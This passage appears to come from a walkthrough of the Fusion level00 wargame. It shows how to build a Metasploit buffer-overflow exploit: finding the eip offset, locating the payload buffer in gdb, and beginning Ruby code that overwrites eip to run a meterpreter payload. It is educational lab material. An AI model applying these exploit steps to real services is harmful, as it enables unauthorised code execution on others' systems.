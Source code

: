 _Note: The_ `pattern_offset eip` _command will take the value out of the eip register and output the offset into the pattern that value was found_

The value of eip is controlled by the 4 bytes at offset 127. Controlling the value eip allows us to execute code at an arbitrary address. To finish the exploit we need to get a payload somewhere in memory and put the location of the payload into eip. The level00 page gives a hint:

_"Hint: Storing your shellcode inside of the fixpath ‘resolved’ buffer might be a bad idea due to character restrictions due to realpath(). Instead, there is plenty of room after the HTTP/1.1 that you can use that will be ideal (and much larger)."_

Rather than trying to to put a payload into the path string replace the string of 'B's in the module with the payload. To find where the string of 'B's is located we can use the Metasploit pattern again. Modify the module to use a pattern length of 2000 in replace of the 'B's.

{% highlight bash %}
...
# Create our payload
filename = "/home/fusion/" + "A" + Rex::Text::pattern_create(500)
sploit = "GET #{filename} HTTP/1.1\r\n" + Rex::Text::pattern_create(2000)
...
{% endhighlight %}

Attach gdb to the process, reload the module, and send the exploit:

{% highlight bash %}
Program received signal SIGSEGV, Segmentation fault.
[Switching to process 10210]
0x30654139 in ?? ()
(gdb) pattern_find
| Address    | Length | Region
| 0xbffff865 | 200    | [stack]
| 0xbffff9e4 | 788    | [stack]
(gdb)
{% endhighlight %}

_Note: The_ `pattern_find` _command will find all occurances of the Metasploit pattern in memory and output its length and location._

Above we see two patterns were found. The first pattern is the path string, which was truncated to 200 bytes. The second pattern is payload which was truncated to 788 bytes. Luckily 788 bytes is just large enough for a meterpreter shell. In the module header options change the available space from 1400 to 788. The Metasploit checks this value when creating the payload.

Replace the data at offset 127 with the string address `0xbffff9e4` in little endian. This should execute the payload. For now make the payload a set of breakpoints to know we are attempting to execute it.

{% highlight Ruby %}
def exploit
  connect
  # Recieve the servers debug message
  data = sock.recv(1024)

  # Overwrite eip with the address of our payload
  junk = "A" * 127
  ret = [0xbffff9da].pack('V')
  trailing_junk = "B" * ( 200 - junk.length - ret.length )
  filename = "/home/fusion/" + junk + ret + trailing_junk
